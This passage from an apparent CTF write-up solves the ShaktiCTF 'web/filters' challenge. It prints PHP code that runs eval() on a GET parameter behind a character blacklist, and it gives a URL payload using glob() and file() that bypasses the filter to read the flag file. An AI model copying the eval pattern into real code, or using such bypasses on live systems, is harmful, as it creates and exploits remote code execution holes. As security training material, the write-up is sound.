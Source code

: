- so we place a random char as sign
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ce1ed63c-b684-4fe6-9232-fe6c067a7fa6)
- shaktictf{Y0u_4re_th3_ult1mat3_f4n}
## web/filters
- description
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/2cb909ac-241e-48f5-ade7-944397e6df75)
- frontend
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/a5e9c236-0d4d-4dbf-95f7-b1fda53e4624)
- provided code
```
 <?php
highlight_file(__FILE__);
$command = $_GET['command'] ?? '';
if($command === '') {
    die("Please provide a command\n");
}
function filter($command) {
    if(preg_match('/(`|\.|\$|\/|a|c|s|require|include)/i', $command)) {
        return false;
    }
    return true;
}
if(filter($command)) {
    eval($command);
    echo "Command executed";
} else {
    echo "Restricted characters have been used";
}
echo "\n";
?>
Please provide a command 
```
- we need to bypass the filter and read the flag.txt file
- we use 2 function here
- glob()-which returns the list of files which matched the given pattern
- so we do glob("fl")[0] ->which gives the file name
- we use this techniue as if need to read `flag.txt` but the letter a is filtered
- as can be seen in this https://www.w3schools.com/php/func_filesystem_file.asp
- `The file() reads a file into an array.`
- here itself we see 
```
 <?php
print_r(file("test.txt"));
?> 
```
- so we read the file test.txt and print it 
`https://ch2474162010.ch.eng.run/?command=print_r(file(glob('*fl*')[0]));`
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/f6983a82-4080-492e-a684-d7935688e5b6)
